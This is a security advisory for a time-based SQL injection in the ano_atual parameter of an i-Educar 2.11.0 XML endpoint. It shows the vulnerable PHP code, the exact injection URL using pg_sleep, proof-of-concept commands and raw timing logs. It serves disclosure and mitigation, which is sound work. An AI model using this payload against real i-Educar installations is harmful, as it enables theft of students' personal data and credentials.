

# Time-based SQL injection in `educar_escola_ano_letivo_xml.php` (`ano_atual`)

- **Product:** i-Educar 2.11.0 (latest release, tag `2.11.0`) (portabilis/i-educar)
- **Type / CWE:** CWE-89 Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') — https://cwe.mitre.org/data/definitions/89.html
- **Severity:** `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` = **8.8 High** (estimated from the vector, not an upstream score)
- **Affected version:** 2.11.0 (latest release, tag `2.11.0`)
- **Endpoint(s):** `GET /intranet/educar_escola_ano_letivo_xml.php` — parameter(s): `ano_atual` (with `esc`)
- **Authentication:** login required (verified with `admin`)
- **Status:** VERIFIED against a local i-Educar 2.11.0 lab (2026-09-10)

## Summary

The XML helper builds `$ano_tual = " AND ano >= {$_GET['ano_atual']} "` and
concatenates it into the school-year query. `esc` is validated with
`is_numeric()`, but `ano_atual` is not. The PoC appends
`AND (SELECT 1 FROM pg_sleep(2))=1`, which delays the response by two seconds
in PostgreSQL; a boolean/time oracle lets an attacker extract arbitrary data.

## Root cause

`ieducar/intranet/educar_escola_ano_letivo_xml.php:8`:

```php
if (is_numeric($_GET['esc'])) {
    $db = new clsBanco;
    if ($_GET['lim']) {
        $lim = 'limit 5';
    }

    if ($_GET['ano_atual']) {
        $ano_tual = " AND ano >= {$_GET['ano_atual']} ";
    }

    $db->Consulta("
                SELECT
                    ano
                FROM
                    pmieducar.escola_ano_letivo
                WHERE
                    ref_cod_escola = {$_GET['esc']} $ano_tual
                    AND ativo = 1
                ORDER BY
                    ano asc $lim
                ");
```

`$_GET['ano_atual']` is interpolated raw, in a position where a boolean
expression is valid, so stacked SQL text executes inside the query.

## Proof of concept

1. Log in.
2. Baseline: `GET /intranet/educar_escola_ano_letivo_xml.php?esc=2&ano_atual=2026`
   → `HTTP 200` in ~0.07 s with `<ano>2026</ano>`.
3. Injection:
   `GET /intranet/educar_escola_ano_letivo_xml.php?esc=2&ano_atual=2026%20AND%20%28SELECT%201%20FROM%20pg_sleep%282%29%29%3D1`
   → `HTTP 200` after ~2.07 s (delta ≈ 2.0 s), same XML body.
4. The PoC only measures timing; it is a read-only payload.

```bash
python3 i-explorar.py            # pick [11]
# or standalone:
python3 vulns/11-escola-ano-letivo-sql-injection/poc.py --target http://127.0.0.1:8080
```

## Evidence

Raw output of the PoC run against the 2.11.0 release (`evidence/run-20260911T001726Z.log`), pasted
verbatim:

```
# i-explorar raw evidence
# started_at: 2026-09-11T00:17:26.332015+00:00
# host: -03
# target: http://127.0.0.1:8080
# payload: 2026 AND (SELECT 1 FROM pg_sleep(2))=1 (read-only)

### baseline: GET /intranet/educar_escola_ano_letivo_xml.php?esc=2&ano_atual=2026
HTTP 200 elapsed=0.072s

--- body ---
<?xml version="1.0" encoding="UTF-8"?>
<query xmlns="sugestoes">
  <ano>2026</ano>
</query>
--- end body ---

### injection: GET /intranet/educar_escola_ano_letivo_xml.php?esc=2&ano_atual=2026%20AND%20%28SELECT%201%20FROM%20pg_sleep%282%29%29%3D1
HTTP 200 elapsed=2.078s

--- body ---
<?xml version="1.0" encoding="UTF-8"?>
<query xmlns="sugestoes">
  <ano>2026</ano>
</query>
--- end body ---

# delta=2.007s threshold=1.5s
# finished_at: 2026-09-11T00:17:28.844756+00:00
```

## Screenshots



Caption: console capture of the PoC run — baseline 0.072 s versus injected
2.074 s for the same response body, a 2.002 s delay caused by `pg_sleep(2)`.

## Impact

An authenticated user can run arbitrary read-only SQL expressions inside the
database through a timing oracle:

- extract any data readable by the `ieducar` database user (grades, personal
  data, credentials, configuration) with time-based blind queries;
- execute resource-intensive expressions for a denial-of-service effect;
- combine the same injection with boolean conditions to enumerate schema and
  records.

## Timeline

- 2026-09-10: local reproduction against the i-explorar 2.11.0 lab (this advisory)
- not yet reported to the maintainer — no remote or external contact was made
  from this repository

## Mitigation

- Bind `ano_atual` as a parameter, or at minimum validate it with
  `is_numeric()` like `esc` (preferably both).
- Remove `limit` string concatenation for `lim` as well and use a whitelist for
  ordering/limit fragments.
- Audit the other `..._xml.php` helpers, which share the same pattern (see
  VULN 12 of this repository).

## References

- Upstream repository: https://github.com/portabilis/i-educar
- CWE-89: https://cwe.mitre.org/data/definitions/89.html
- This advisory (canonical URL): https://github.com/i-explorar/i-explorar/blob/main/vulns/11-escola-ano-letivo-sql-injection/README.md
